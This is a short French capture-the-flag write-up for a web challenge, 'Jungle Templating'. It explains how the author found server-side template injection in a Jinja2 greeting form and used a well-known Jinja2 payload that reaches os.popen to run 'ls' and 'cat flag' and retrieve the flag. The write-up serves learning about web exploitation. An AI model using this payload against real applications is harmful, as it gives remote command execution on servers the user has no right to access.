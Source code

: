 

# Jungle Templating



- Category: `Web`
- Points: `100` => `100`
- Difficulty: Easy
- Solves: `293`


**Description**

>Challenge link : http://206.189.236.145:5000/

>N.B: There is no need to bruteforce anything.
>
> Auteur : Typhlos#9037
>

**Note**
-J'ai raté le first blood de ce challenge de peu en le flaggant en 4ème :( 

**Attachments**

- [`capture-reseau.pcapng`](https://drive.google.com/drive/folders/1MMs6CiIiBnEYUCaJyMGQqijCeW4oVdZj)

### :book: Introduction

**Overview**
 
Le site possède une unique fonctionnalité: 
  - Permettre de renter un nom
  - Retourner Hi, nom

Je pense tout de suite a une SSTI est de fait si on donne comme nom {{1+1}} le site nous retourne Hi, 2


**Exploit**

On peut voir dans le code source que c'est un serveur python donc c'est une  SSTI avec Jinja2. Je vais chercher
internet un payload permettant d'executer des commandes bash. Merci a default de Root-Me pour son payload:
```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('lacommande').read() }} ```

Grace a cette commande je commence par faire un ls et le serveur me retourne __pycache__ app.py flag. Après 
un effort mental considérable je déduis que le fichier qui nous intéresse et le fichier flag et je fait
```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat flag').read() }} ```
pour que le serveur me retourne le flag:


BDSEC{Y3Y_7H1515_7H3_F146}





